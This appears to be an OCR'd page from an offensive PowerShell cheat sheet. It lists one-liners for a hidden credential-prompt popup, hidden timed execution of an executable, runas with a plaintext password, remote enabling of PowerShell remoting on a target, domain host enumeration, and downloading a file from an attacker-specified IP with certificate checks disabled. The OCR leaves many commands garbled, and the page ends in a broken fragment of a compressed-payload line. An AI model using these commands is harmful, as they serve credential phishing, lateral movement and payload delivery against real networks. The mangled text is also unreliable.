### Basic authentication popup

```text
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass 
$Host.UI.PromptForCredential(" title "," message "," user" "," domain") 
```

### Run exe every 4 hours between aug 8-11, 2013 and the hours of 0800-1700 \(from cmd.exe\)

```text
powershell. exe -Command "do {if ((Get-Date -format yyyyMMdd-HHmm) -match
'201308 ( 0 [ 8-9] |1 [0-1])-(0[ 8-9]]|1 [ 0-7]) [ 0-5] [ 0-9]') {Start-Process -
WindowStyle Hidden "C:\Temp\my.exe";Start-Sleep -s 14400))while(1)" 
```

### Powershell runas

```text
$pw ~ convertto-securestring -string "PASSWORD" -asplaintext -force;
$pp ~ new-object -typename System.Management.Automation.PSCredential - 
argument list "DOMAIN\user", $pw;
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command 
&{Start-Process file.exe -verb runas)' 
```

### Email sender

```text
powershell.exe Send-l-1ai1Hessage -to " email " -from " email " -subject 
"Subject" -a " attachment file path " -body "Body" -SmtpServer Target
Email Server IP 
```

Turn on powershell remoting \(with valid credentials\)

```text
net time \\ip
at \\ip time "Powershell -Command 'Enable-PSRemoting -Force'"
at \\ip time+1 "Powershell -Command 'Set-Item
wsman:\localhost\client\trustedhosts ''"
at \ \ip time+2 "Powershell -Command 'Restart-Service WinRM'"
Enter-PSSession -ComputerName ip -Credential username 
```

List hostname and ip for all domain computers

```text
Get-WmiObject -ComputerName DC -Namespace root\microsoftDNS -Class 
MicrosoftDNS _ ResourceRecord -Filter "domainname~' DOMAIN '" | select 
textrepresentation 
```

Powershell download for a file from a specified location

```text
powershell.exe -noprofile -noninteractive -command 
"[System.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $source="""https:ll YOUR SPECIFIED IP I file.zip """; 
$destination="C:\rnaster.zip"; $http = new-object Systern.Net.WebClient;
$response= $http.DownloadFile($source, $destination);" 
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"